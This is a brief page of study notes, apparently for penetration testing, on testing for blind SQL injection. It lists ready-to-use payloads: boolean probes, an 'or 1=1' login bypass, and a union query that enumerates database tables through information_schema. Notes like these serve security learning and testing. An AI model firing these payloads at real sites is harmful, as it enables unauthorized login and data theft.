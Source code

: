 
### Testing Blind SQLi
* Blind SQLi queries the database for true and false questions and evaluates the responses from the web server.
````
1' and 1=1
1' order by 1
````

*The following will execute, although the password is wrong. This is because or 1=1 is always a true statement.
````
aaa' or 1=1 #
````

**Information Schema Table**
````
1' union select table_name, 2 from information_schema.tables
````
